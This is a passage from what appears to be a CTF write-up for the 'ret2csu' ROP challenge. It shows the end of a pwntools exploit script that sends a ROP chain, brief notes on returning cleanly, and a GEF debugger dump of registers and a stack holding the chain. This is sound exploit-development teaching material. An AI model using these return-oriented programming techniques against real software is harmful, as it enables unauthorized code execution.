 ```python
    padding,
    rop_chain
])

# Send the payload
io.clean()
io.sendline(payload)
io.interactive()
```

Tracing the code's execution, we eventually end up returning back to the caller function.
This is the main difference between a `call` and a `jmp` instruction. Therefore, when execution resumes, we should take care to return with minimal side effects.

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0x0               
$rcx   : 0x00007f46e0b2bff3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0xd00df00dd00df00d
$rsp   : 0x00007ffdfac3e7e0  →  0x000000000040068d  →  <__libc_csu_init+77> add rbx, 0x1
$rbp   : 0x0               
$rsi   : 0xcafebabecafebabe
$rdi   : 0xdeadbeef        
$rip   : 0x00000000004006bc  →  <_fini+8> ret 
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0xfffffffffffff249
$r11   : 0x246             
$r12   : 0x0000000000600e48  →  0x00000000004006b4  →  <_fini+0> sub rsp, 0x8
$r13   : 0xdeadbeefdeadbeef
$r14   : 0xcafebabecafebabe
$r15   : 0xd00df00dd00df00d
$eflags: [zero carry parity ADJUST sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffdfac3e7e0│+0x0000: 0x000000000040068d  →  <__libc_csu_init+77> add rbx, 0x1     ← $rsp
0x00007ffdfac3e7e8│+0x0008: 0x00000000004006a3  →  <__libc_csu_init+99> pop rdi
0x00007ffdfac3e7f0│+0x0010: 0xdeadbeefdeadbeef
0x00007ffdfac3e7f8│+0x0018: 0x0000000000400510  →  <ret2win@plt+0> jmp QWORD PTR [rip+0x200b0a]        # 0x601020 <ret2win@got.plt>
0x00007ffdfac3e800│+0x0020: 0x000000000000000a
0x00007ffdfac3e808│+0x0028: 0x0000000000000000
0x00007ffdfac3e810│+0x0030: 0x1a0d7e1c78e1e0cf
0x00007ffdfac3e818│+0x0038: 0x1b7b4ad7ce67e0cf
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4006b2                  add    BYTE PTR [rax], al
     0x4006b4 <_fini+0>        sub    rsp, 0x8
     0x4006b8 <_fini+4>        add    rsp, 0x8
 →   0x4006bc <_fini+8>        ret    
   ↳    0x40068d <__libc_csu_init+77> add    rbx, 0x1
        0x400691 <__libc_csu_init+81> cmp    rbp, rbx
        0x400694 <__libc_csu_init+84> jne    0x400680 <__libc_csu_init+64>
        0x400696 <__libc_csu_init+86> add    rsp, 0x8
        0x40069a <__libc_csu_init+90> pop    rbx
        0x40069b <__libc_csu_init+91> pop    rbp
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2csu", stopped 0x4006bc in _fini (), reason: SINGLE STEP
```